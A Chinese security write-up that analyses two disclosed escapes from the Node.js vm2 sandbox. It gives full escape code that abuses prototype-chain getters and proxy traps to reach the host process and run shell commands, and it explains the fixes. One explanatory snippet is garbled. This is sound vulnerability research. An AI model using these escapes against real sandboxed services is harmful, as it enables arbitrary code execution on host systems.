本文首发于安全客 [https://www.anquanke.com/post/id/207291](https://www.anquanke.com/post/id/207291)

# vm2沙箱逃逸分析

前言：vm2中在版本的更迭中，存在多种逃逸方法，可以参考 [https://github.com/patriksimek/vm2/issues?q=is%3Aissue+author%3AXmiliaH+is%3Aclosed](https://github.com/patriksimek/vm2/issues?q=is%3Aissue+author%3AXmiliaH+is%3Aclosed) 但是 issue中都没有给出具体的分析，本文通过几个典型的案例来分析这些代码是如何逃逸出vm2的

> 注：需要使用git进行回退 `git reset --hard 7ecabb1`

## 案例1

代码：

```js
"use strict";
const {VM} = require('vm2');
const untrusted = `var process;
Object.prototype.has=(t,k)=>{
	process = t.constructor("return process")();
}
"" in Buffer.from;
process.mainModule.require("child_process").execSync("whoami").toString()`
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

看这个案例前，首先需要补充一点es6 proxy的知识 [https://es6.ruanyifeng.com/?search=weakmap&x=0&y=0#docs/proxy](https://es6.ruanyifeng.com/?search=weakmap&x=0&y=0#docs/proxy) (大神可以略过)

先看一段代码：

```js
var handler = {
    get () {
     console.log("get");
    }
  };

  var target = {};

  var proxy = new Proxy(target, handler);
  
  Object.prototype.has = function(){
    console.log("has");
  }
  
  proxy.a; //触发get
  "" in proxy; //触发has，这个has是在原型链上定义的
```

在对象 `target` 上定义了 `get` 操作，会拦截对象属性的读取，所以当访问 `proxy.a` 时，会打印出 `get`

但是当执行 `"" in proxy` 时，也会被 `has`方法拦截，此时，我们虽然没有直接在 `target` 对象上定义 `has` 拦截操作，即代理的方法是可以被继承的。

回到vm2逃逸的代码，vm2中实际运行的代码如下：

```js
"use strict";

var process;

Object.prototype.has = function (t, k) {
    process = t.constructor("return process")();
};

"" in Buffer.from;
process.mainModule.require("child_process").execSync("whoami").toString()
```

`Buffer.from` 是一个代理对象，vm2的作者一开始并没有给vm2内部的Object 加上 has方法，所以我们可以自己给 `Object` 对象的原型上添加 `has` 方法，这时候运行

```js
"" in Buffer.from;
```

就会去执行我们定义好的has方法，由于 `proxy` 的机制，参数 `t` 是 `function Buffer.from` ，这个function是在外部的，其上下文是 nodejs 的global下，所以访问其 `constructor` 属性就获取到了外部的 `Function`，从而拿到外部的 `process`



而开发者的修复方案：添加上 has 方法



可以看到，没有修复之前，`Buffer.from` 是没有拦截 `has` 操作的



而修复之后：



由于 `Buffer.from` 中已经存在了 has 方法，所以不会去原型链上查找

## 案例2

代码如下

```js
"use strict";
const {VM} = require('vm2');
const untrusted = `var process;
try{
	Object.defineProperty(Buffer.from(""), "", {get set(){
		Object.defineProperty(Object.prototype,"get",{get(){
			throw x=>x.constructor("return process")();
		}});
		return ()=>{};
	}});
}catch(e){
	process = e(()=>{});
}
process.mainModule.require("child_process").execSync("id").toString();`;
try{
	console.log(new VM().run(untrusted));
}catch(x){
	console.log(x);
}
```

同样地，需要补充一点js的知识：

js的对象中，存在三种不同的属性：数据属性，访问器属性和内部属性。我们只看数据属性和访问器属性

数据属性和访问器属性都存在 `[[Enumerable]]` 和 `[[Configurable]]` 特性

不同点：以下特性属于数据属性：

-   `[[Value]]`：该属性的属性值，默认为`undefined`。
-   `[[Writable]]`：是一个布尔值，表示属性值（`value`）是否可改变（即是否可写），默认为`true`。

以下特性属于访问器属性

-   `[[Get]]`：是一个函数，表示该属性的取值函数（getter），默认为`undefined`
    
-   `[[Set]]`：是一个函数，表示该属性的存值函数（setter），默认为`undefined`
    

```js
var obj = {
    prop: let obj = {
    prop:123,
    Writable: true
}

let jbo = {
    get prop(){
        return "get";
    },
    set prop(val){
        console.log("set"+val);        
    }
}

console.log(obj.prop); //123
console.log(jbo.prop); //get
```

我们也可以通过 `Object.defineProperty` 来设置对象的访问器属性

```js
let obj = {};
Object.defineProperty(obj, "prop", {
    get(){
        return "get";
    }
})
console.log(obj.prop);
```

我们还可以这样写

```js
let obj = {};
Object.defineProperty(obj, "prop", {
    get get(){
        console.log("get1"); //get1
        return ()=>{return "get2"};
    }
})
console.log(obj.prop); //get2
```

在这种情况下，会先执行 `get()` 函数，打印 `get1`，返回一个函数，作为 `prop` 属性的 getter，之后访问 `obj.prop` 时，就会打印 `get2`

```js
get(){
       console.log("get1");
       return ()=>{return "get2"};
   }
```

同理：

```js
let obj = {};
Object.defineProperty(obj, "prop", {
    get set(){
        console.log("set1");
        return (val)=>{console.log("set2")};
    }
})
obj.prop = 1
```

此时会先执行一次 `set()` 函数打印出 `set1`，同时设置 `prop` 属性的 setter 为 `(val)=>{console.log("set2")}` 之后执行 `obj.prop = 1` 时，就会打印 `set2`;

那么回过头来看vm2逃逸的代码

```js
var process;
try {
    let a = Buffer.from("")
    Object.defineProperty(a, "", {
        get set() {
            Object.defineProperty(Object.prototype, "get", {
                get: function get() {
                    throw function (x) {
                        return x.constructor("return process")();
                    };
                }
            });
            return ()=>{};
        }

    });
} catch (e) {
    process = e(() => {});
}
```

执行的过程如下：



参考前文 vm2 实现原理分析，此时得到的a是一个代理对象，当我们在a上定义新属性的时候，被代理的 `defineProperty` 拦截



检测传入的 `descriptor` 上是否设置了 get和set，如果是，调用外部的 `host.Object.defineProperty` 去实现设置对象属性的

但是在执行 `descriptor.get` 的时候，由于 `nodejs`是异步的，此时已经执行了

```js
Object.defineProperty(Object.prototype, "get", {
                get: function get() {
                    throw function (x) {
                        return x.constructor("return process")();
                    };
                }
            });
```

也就是说，`descriptor.get` 会沿着原型链寻找到 `get`, 并且抛出异常，`throw x=>x.constructor("return process")();`

这个抛出的异常，最先被vm2内部捕获到，就是图中的e

vm2 需要将其包装成一个代理对象之后，继续抛出，所以这个异常被我们写的代码捕获到



vm2抛出的异常，被我们的代码捕获到



然后我们将其作为函数来调用，那就会触发这个函数代理对象的 `apply` 方法



这里的 `target` 就是 `x=>x.constructor('return process')()`

`context` 是函数的上下文代理，通过 `Decontextify.value` 之后是 `underfined`

`args` 是函数的参数代理，其值为 `() => {}`

真正的函数调用发生在

```js
Contextify.value(fnc.apply(context, Decontextify.arguments(args)));
```

这里可以做一下拆分

```js
let func_arg = Decontextify.arguments(args);

let fnc_result = fnc.apply(context, func_arg);

let res = Contextify.value(fnc_result);
```

逻辑上看，先将函数的参数做一次处理，然后通过反射调用函数，再将得到的结果包装成代理

问题出在对函数的参数处理上，此处的函数参数为 `() => {}` ，是一个函数，并不是代理对象

所以 `Decontextify` 将其做了一次包装，使之成为一个代理对象



然而问题在于，这个函数的代理对象中的get方法的实现



当访问 `constructor` 属性的时候，得到的是 `host.Function`

如图：



这就导致逃溢出沙箱了
